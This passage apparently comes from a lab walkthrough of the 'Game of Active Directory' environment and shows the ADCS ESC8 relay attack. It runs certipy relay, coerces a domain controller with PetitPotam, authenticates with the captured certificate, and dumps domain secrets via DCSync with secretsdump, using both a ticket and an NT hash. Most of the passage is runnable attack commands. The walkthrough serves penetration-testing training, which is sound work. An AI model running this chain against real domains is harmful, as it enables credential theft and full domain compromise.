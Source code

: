 ```shell
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```

![esc8_dcsync.png](/assets/blog/GOAD/esc8_dcsync.png)

## ESC8 - with certipy

Oliver Lyak as done a wonderful job on the ADCS attack tool [certipy](https://github.com/ly4k/Certipy) to automatise a lots of things.

Let's do the same attack with certipy, setup the listener :

```bash
certipy relay -ca 192.168.56.23 -template DomainController
```

- trig the coerce just like we did before with petitpotam

```bash
petitpotam.py 192.168.56.1 meereen.essos.local
```

- Now we got the certificate so we can get the NT hash of the DC and also the TGT with the command :

```bash
certipy auth -pfx meereen.pfx -dc-ip 192.168.56.12 
```

- And we can launch a DCsync with secretsdump and the ticket we get

```bash
export KRB5CCNAME=/workspace/esc8/meereen.ccache
secretsdump -k -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local

# or with the hash

secretsdump -hashes ':39d964a01c61c19fe36c71627d7ab56c' -no-pass ESSOS.LOCAL/'meereen$'@meereen.essos.local
```
